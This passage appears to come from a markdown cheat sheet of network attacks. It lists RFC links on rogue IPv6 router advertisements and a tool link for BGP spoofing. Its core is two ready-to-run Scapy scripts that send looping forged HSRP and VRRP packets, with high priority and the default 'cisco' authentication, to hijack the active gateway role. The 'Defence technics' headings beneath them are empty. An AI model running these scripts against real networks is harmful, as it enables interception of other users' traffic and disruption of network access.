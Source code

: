 > Related RFCs   
[RFC 6104 - Rogue IPv6 Router Advertisement Problem Statement](https://tools.ietf.org/html/rfc6104)  
[RFC 6105 - IPv6 Router Advertisement Guard](https://tools.ietf.org/html/rfc6105)  
[RFC 3736 - Stateless Dynamic Host Configuration Protocol (DHCP) Service for IPv6](https://tools.ietf.org/html/rfc3736)  
[RFC 4862 - IPv6 Stateless Address Autoconfiguration (SLAAC)](https://tools.ietf.org/html/rfc4862)  
[RFC 7113 - Implementation Advice for IPv6 Router Advertisement Guard (RA-Guard)](https://tools.ietf.org/html/rfc7113)  
[RFC 8021 - Generation of IPv6 Atomic Fragments Considered Harmful](https://tools.ietf.org/html/rfc8021)  

> Other useful related links  
[Windows machines compromised by default configuration flaw in IPv6](https://resources.infosecinstitute.com/slaac-attack/)  
[Why You Must Use ICMPv6 Router Advertisements](https://community.infoblox.com/t5/IPv6-CoE-Blog/Why-You-Must-Use-ICMPv6-Router-Advertisements-RAs/ba-p/3416)  

### Hijacking HSRP (VRRP, CARP)
**Сomplexity:** High  
**Relevance:** High  
**Description:**  
**Attack tools**
Scapy is the easiest way to create PoC and hijack active node status:

For HSRP:
```python
#!/usr/bin/env python
from scapy.all import *

if __name__ == "__main__":
    ip = IP(src="10.0.0.100", dst="224.0.0.2")
    udp = UDP(sport=1985, dport=1985)
    hsrp = HSRP(group=1, priority=150, virtualIP="10.0.0.1", auth="cisco")
    send(ip/udp/hsrp, iface="eth1", inter=3, loop=1)
```

For VRRP:
```python
#!/usr/bin/env python
from scapy.all import *

if __name__ == "__main__":
    ip = IP(src="10.0.0.100", dst="224.0.0.2")
    udp = UDP()
    vrrp = VRRP(vrid=1, priority=150, addrlist=["10.0.0.7", "10.0.0.8"], ipcount=2, auth1='cisco')
    send(ip/udp/vrrp, iface="eth1", inter=3, loop=1)
```
**Defence technics**  

### Dynamic routing protocol spoofing (BGP)
**Сomplexity:** High  
**Relevance:** High  
**Conditions:**  
**Description:**  
**Attack tools**  
https://github.com/fredericopissarra/t50  
**Defence technics**  
